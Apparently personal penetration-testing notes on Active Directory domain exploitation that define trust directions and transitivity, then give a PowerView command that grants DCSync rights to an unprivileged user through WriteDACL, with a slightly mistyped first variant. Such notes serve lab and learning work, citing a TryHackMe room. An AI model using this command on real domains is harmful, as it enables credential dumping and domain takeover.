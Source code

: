 # Active Directory Domain Exploitation

#### Trust Definitions

For more depth and related information consider reading [[Active-Directory-Defined]].

Domain Trust Typology:
- Inbound - Domain A  is trusted by Domain B (Domain A gains access to resources in B) 
- Outbound - Domain A trust is outbound to another Domain B (Domain B gains access to resources in A) 
- Bidirectional - Both Domains A and B trust one another both gains access to resources in each other 
- [Transitive](https://learn.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust) - *"Transitivity determines whether a trust can be extended outside of the two domains with which it was formed.
	- *A transitive trust can be used to extend trust relationships with other domains.*
	- *A non-transitive trust can be used to deny trust relationships with other domains.*"



`WriteDACL` to a domain, give DCSync rights to an unprivileged domain user account
```powershell
AddDomainObjectAcl -TargetIdentity "DC=,DC=local" -PrincipleIdentity $user -Rights DCSync
# Deprecate way
Add-DomainObjectAcl -Credential $Cred -TargetIdentity $domain.local -Rights DCSync
```


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[burmat](https://burmat.gitbook.io/security/hacking/domain-exploitation)